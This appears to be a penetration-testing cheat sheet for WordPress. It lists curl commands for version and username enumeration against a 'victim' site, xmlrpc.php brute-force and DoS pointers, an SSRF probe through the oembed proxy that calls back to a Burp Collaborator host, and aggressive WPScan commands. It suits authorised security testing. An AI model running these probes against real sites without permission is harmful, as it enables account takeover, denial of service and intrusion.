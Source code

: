 # 🔷 WordPress

## Manual

### Information Gathering

* license.txt (wordpress version)
* wp-activate.php
* wp-content/uploads/
* wp-includes/
* wp-config.php

```bash
# get wordpress version
curl https://victim.com/ | grep 'content="WordPress'
```

### Users / IP

**Check for usernames :** /wp-json/wp/v2/users

**Could leak IP addresses :** /wp-json/wp/v2/pages

```bash
# get author name = potential user
curl -s -I -X GET http://blog.example.com/?author=1
```

## xmlrpc.php

### Active

> Credentials brute-force or use it to launch DoS attacks

{% embed url="https://github.com/relarizky/wpxploit" %}

### Exploit

{% embed url="https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/" %}

## SSRF

/wp-json/oembed/1.0/proxy

### Try

```
https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net
```

## WPScan

{% embed url="https://github.com/wpscanteam/wpscan" %}

{% hint style="info" %}
WPScan WordPress security scanner. Written for security professionals and blog maintainers to test the security of their WordPress websites.
{% endhint %}

### Commands - with API

#### Default

```bash
# Enumerate all plugins with known vulnerabilities
wpscan --url $target -e vp --plugins-detection mixed --api-token $YOUR_TOKEN

# Enumerate all plugins in WPSCAN database (could take a very long time)
wpscan --url $target -e ap --plugins-detection mixed --api-token $YOUR_TOKEN
```

### Private Commands - with API

```bash
# Deeper scan
wpscan --url $target --ignore-main-redirect --detection-mode aggressive --plugins-detection mixed --api-token $YOUR_TOKEN
```
